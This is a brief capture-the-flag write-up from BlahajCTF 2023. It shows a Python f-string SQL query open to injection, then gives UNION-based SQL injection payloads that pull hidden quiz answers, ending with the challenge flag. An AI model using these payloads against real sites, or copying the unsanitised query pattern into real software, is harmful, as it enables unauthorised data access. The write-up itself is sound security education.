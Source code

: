 ```yaml
---
title: Secure Quiz Label Index
date: 2023-12-05
tags:
- web
categories: BlahajCTF 2023
---
```


solved by {% person hartmannsyg %}

> Halogen has just released all the questions to the next CyberSecurity test. Blahaj wants to score full marks, and believes the answers and bonus questions are listed somewhere on the site. Help Blahaj get the answers and score full marks on this quiz!

From just a little testing (or just reading the source code provided), we see that our "search" gets injected into a SQL query:
```py
f"SELECT ID, question, setter FROM quizzes WHERE question LIKE '%{query}%' AND visible = 1"
```

We can escape the single quotes `'`, so we can use a SQL UNION injection (where we UNION the SQL query with another query to query what we want) as such:

payload: `' UNION SELECT ID, question, answer from quizzes`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes %' AND visible = 1
```

However this is not a valid SQL query, so I appended yet another query to make it valid:

payload: `' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '`
```sql
SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' UNION SELECT ID, question, answer from quizzes UNION SELECT ID, question, setter FROM quizzes WHERE question LIKE '%' AND visible = 1
```

and we get the answer to the "What is the flag?" question to be `blahaj{full_m4rk5_guar4nte3d!!}`